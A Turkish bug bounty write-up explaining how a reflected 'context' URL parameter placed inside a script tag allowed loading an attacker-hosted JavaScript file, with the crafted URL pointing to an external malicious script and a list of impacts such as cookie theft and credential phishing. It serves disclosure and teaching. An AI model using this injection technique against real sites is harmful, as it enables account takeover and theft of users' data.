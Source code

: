 ```yaml
---
title: 'TR \| Javascript File Inclusion via a Simple Link Injection'
date: 2018-06-12
permalink: /posts/javascript-file-inclusion-via-simple-link-injection-xss/
tags:
  - xss
  - cross site scripting
  - javascript
  - file inclusion
  - link injection
  - hack
  - bugbounty
  - account takeover
  - write-up
  - poc
excerpt: 'Javascript File Inclusion (XSS) via a Simple Link Injection'
---
```


Merhaba arkadaşlar, ben Samet ŞAHİN.

HackerOne (https://hackerone.com/) üzerindeki bir gizli (private) programa **Recognize** yaparken HTTP servisini kullanan bir IP adresi buldum. Bulduğum IP adresine girince direkt olarak bir index sayfasına yönlendiriyordu. Bu index sayfasının kaynak kodlarını (CTRL-U) okurken GET yöntemiyle değer alan bir `<form>` etiketi gördüm ve içerdiği `<input>` etiketlerinden "context" parametresinden değer aldığını fark ettim. 
<img src="/images/LinkInjectionBlogPost.PNG">

Sıradan bir XSS araştırmasında tüm girdilere (input) XSS saldırı kodları (payload) girmeyi elbette deneyebilirsiniz. Evet XSS böyle de bulunur AMA kaynak kodunu okumayıp, fonksiyonların nasıl çalıştığını ve ne işe yaradığını anlamadan **hacking** denediğiniz anda otomatize araçlardan pek de bir farkınız kalmayacaktır. Fonksiyonların nasıl çalıştığını ve ne işe yaradığını anlamak da Bug Bounty alanında iyi çalışmalar yapan kişilerden aldığım önerilerden biridir. 

Yani buradan bir #bugbountytip çıkarak olursak : "Sitenin ne işe yaradığını sorgula ve nasıl bozarım diye düşün."

Ufak bir trickten sonra açığımıza geri dönelim. Kaynak kodunu okumuş ve "context" isimli bir girdi etiketinin varlığını anlamıştık. Şimdi eğer daha önce çok eski sitelere **Recognize** veya **Hacking** uyguladıysanız sitenin gerçekten çalışıp çalışmadığını kontrol etmelisiniz. Hadi gelin kontrol edelim. Link'in sonunda `?context=sametsahin` yazıyorum ve kaynak koduna nerelere ve nasıl yansıdığını inceliyorum.
> URL : https://127.0.0.1/blablabla/index.html?context=sametsahin
<img src="/images/LinkInjectionBlogPost2.png">

Yukarıdaki URL adresini ziyaret ediyoruz ve CTRL-U kombinasyonuyla kaynak koduna giriyoruz. Ardından da CTRL-F ile "sametsahin" değerini aratıyoruz. Gördüğümüz kadarıyla "sametsahin" değeri tam 63 farklı yerde ve farklı şekillerde yansımış. Birazdan bu farklı yansıma şekillerinden bir tanesini kullanarak "Medium 6.3" değerinde bir Cross Site Scripting (XSS) açığı elde edeceğiz. 

Yukarıdaki resimde HTML ve JavaScript için hayati önem arz eden `<script>` etiketine "sametsahin" değerinin basıldığını ve sonuna da /javascript.js dosyasının otomatik olarak eklendiğini görüyoruz. Bu ne anlama geliyor ? Nasıl bozarım ?

> Bu, websitesinin "context" parametresinden aldığı değeri direkt olarak `<script>` etiketinin başına eklediğini ve değerin hemen sonuna da javascript.js dosyasını alarak çalıştığını anlıyoruz.  


> Eğer benden aldığı değeri direkt olarak `<script>` etiketinin içine yerleştiriyor ise ben bu değeri bir kontrolümdeki site adresiyle değiştirip o sitedeki /javascript.js dosyasının içeriğini zararlı kodlar (payload) ile doldurarak XSS açığına erişebilirim.

Bu durumda XSS açığına sebep olan URL adresimiz şu şekilde gözükecektir.
> URL : https://127.0.0.1/blablabla/index.html?context=https://sametsahin.net/zararlikod.js?
<img src="/images/LinkInjectionBlogPost3.png">

Ve URL adresine kullanıcıya tıklattırdığımda kullanıcı tarayıcısında zararlı kodumuz (XSS Payloadımız) çalışacaktır.
<img src="/images/LinkInjectionBlogPost4.png">


**Peki neler yaptık ?**
1 -> Recognize ile bir HTTP uygulaması ve bir klasöre eriştik.  
2 -> Eriştiğimiz klasördeki index dosyasının kaynak kodunu okuduk.  
3 -> Kaynak kodunu okurken "context" isimli bir parametre olduğunug gördük.  
4 -> "Context" parametresinin nerelere ve nasıl yansıdığını tespit ettik.  
5 -> Kendimize bazı sorular sorduk.  
6 -> Kontrolümüzdeki bir websitesiyle değiştirdik ve "context" parametresine yazdık.  
7 -> Basit bir Link Injection'dan yola çıkarak en iyisinden bir Cross Site Scripting açığı elde ettik.  


**Peki bu Cross Site Scripting ile neler yapılabilirdi ?**
1 -> Kullanıcı Cookie'leri çalınıp kullanıcı hesabına erişilebilirdik.  
2 -> Kullanıcıyı zararlı websitelerine yönlendirebilirdik.  
3- > CSRF Korumalarını bypass edebilir veya CSRF Tokenlerini çalabilirdik.  
4 -> Websitesinde sahte formlar oluşturup Email, Telefon, Adres, Kimlik ve Parola gibi hassas verileri çalabilirdik.  
....  



Normal bir XSS açığında saldırı senaryosu geniştir ama bu tür JavaScript dosyası dahil edilebilen tür XSS açıklarında zararlı kodunuzu dilediğiniz kadar uzun yazabildiğiniz için oldukça tehlikelidir. 

Ve tüm bu işlemlerin ardından ortaya çıkardığım orijinal bir #BugBountyTip : 
> **Even a Simple Link Injection can be very harmful. Depends on where it is.**


Samet ŞAHİN
